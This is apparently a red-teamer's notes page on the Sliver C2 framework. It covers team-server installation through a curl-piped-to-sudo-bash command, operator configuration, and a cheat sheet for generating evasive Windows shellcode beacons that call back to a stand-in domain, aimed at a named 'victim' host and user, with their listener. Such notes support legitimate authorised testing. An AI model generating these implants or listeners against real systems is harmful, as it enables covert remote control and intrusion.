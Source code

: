 # Sliver

- [https://github.com/BishopFox/sliver](https://github.com/BishopFox/sliver)




## Install

- [https://github.com/BishopFox/sliver/releases/latest](https://github.com/BishopFox/sliver/releases/latest)

Install team server as a daemon on the team server:

```
$ curl https://sliver.sh/install | sudo bash
```

For a client get a `sliver-client` binary from releases or disable the service if installed as a daemon:

```
$ sudo systemctl disable sliver.service --now
```




## Configure Team Server for Multiplayer

- [https://github.com/BishopFox/sliver/wiki/Configuration-Files](https://github.com/BishopFox/sliver/wiki/Configuration-Files)

Change [multiplayer](https://github.com/BishopFox/sliver/wiki/Multiplayer-Mode) listener host (daemon mode) and restart:

```
$ sudo vi /root/.sliver/configs/server.json
$ sudo systemctl restart sliver.service
```

Generate config for a new operator:

```
$ sudo /root/sliver-server operator --name snovvcrash-kali-home --lhost <PRIVATE_IP> --lport 31337 --save snovvcrash_<PRIVATE_IP>.cfg
```




## Cheatsheet

A redirector-aware pair of payload and listener (when redirecting to `PRIVATE_IP:8443`):

```
sliver > generate [beacon] [--seconds 45] [--jitter 5] --os windows --arch amd64 --format shellcode [--evasion] [--disable-sgn] --http example.com:443 [--limit-datetime "Thu, 01 Jan 1970 00:00:00 MSK"] [--limit-domainjoined] [--limit-hostname VICTIM-PC] [--limit-username victim.user] --name victimpc --save /home/snovvcrash/www/shellcode.bin
sliver > https --domain example.com --lhost <PRIVATE_IP> --lport 8443
```
